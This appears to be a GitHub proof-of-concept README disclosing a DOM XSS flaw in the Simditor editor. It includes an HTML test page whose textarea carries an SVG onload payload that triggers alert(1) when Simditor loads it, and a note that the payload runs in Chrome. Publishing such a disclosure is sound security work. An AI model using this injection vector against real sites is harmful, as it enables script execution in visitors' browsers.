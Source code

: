 # simditor
https://github.com/mycolorway/simditor
DOM XSS

## Download the Simditor source code.
```We just need this three js.
We just need this three js.
```
![image](https://github.com/hkglue/simditor_demo/blob/master/images/js.jpg)


##Edit a HTML FILE
```
<html>
<title>test</title>
<body>
<script type="text/javascript" src="./jquery.min.js"></script>
<script type="text/javascript" src="./module.js"></script>
<script type="text/javascript" src="./hotkeys.js"></script>
<script type="text/javascript" src="./simditor.js"></script>

<textarea id="editor"><svg><svg/onload=alert(1)></textarea>
<script>var editor = new Simditor({textarea: $('#editor')});</script>

</body>
</html>
```



##Open the HTML in any browser.
```Thiis is in my chrome
This is in my chrome
THE XSS PAYLOAD IS EXECUTE !
```
![image](https://github.com/hkglue/simditor_demo/blob/master/images/exmaple.jpg)
